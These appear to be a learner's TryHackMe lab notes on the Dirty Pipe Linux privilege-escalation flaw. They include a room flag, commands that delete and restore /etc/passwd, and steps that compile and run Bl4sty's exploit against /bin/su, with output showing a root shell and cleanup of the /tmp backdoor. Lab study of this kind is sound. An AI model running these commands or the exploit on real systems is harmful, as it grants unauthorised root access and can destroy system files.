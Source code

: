 ==THM{MmU4Zjg0NDdjNjFiZWM5ZjUyZGEyMzlm}==

#### restoring the /etc/passwd file

```to see changes
cat /etc/passwd
```

```eliminate
rm -rf /etc/passwd
```

```backup
cp /tmp/passwd /etc/passwd
```

```checking
grep -b "muiri" /etc/passwd
```

###  A Second Exploit 

> Bl4sty's exploit capitalises on this. Instead of overwriting a file like /etc/passwd, it overwrites a user-specified SUID binary (such as /bin/su), injecting shellcode into it which then gets executed with the permissions of the privileged user (i.e. root). Specifically, the exploit hijacks the chosen SUID binary and forces it to create a backdoor binary in  /tmp which has the SUID bit and calls /bin/sh. It then restores the targeted SUID binary to full working order by re-adding the overwritten section, and uses the newly created backdoor to grant the attacker a shell as the privileged user.

#### Exploitation

> Before continuing with this task, please ensure that you have exited your session as the root user. You should once again be executing commands in the context of the tryhackme user.
As the tryhackme user, compile the exploit using the same syntax as was given in the previous task, e.g.

```
gcc dirtypipez.c -o exploit
```

> With the exploit compiled, it should be run with a single argument specifying a target binary, owned by root and with the SUID bit set, for example: 

```
./exploit /bin/su
```

> [+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))# whoami
root

`Remove the SUID binary created by the script (/tmp/sh).`

```
cd /tmp
```
```
ls
```
```
rm -rf sh
```
```checking
ls
```
==I understand the Dirty Pipe vulnerability!==
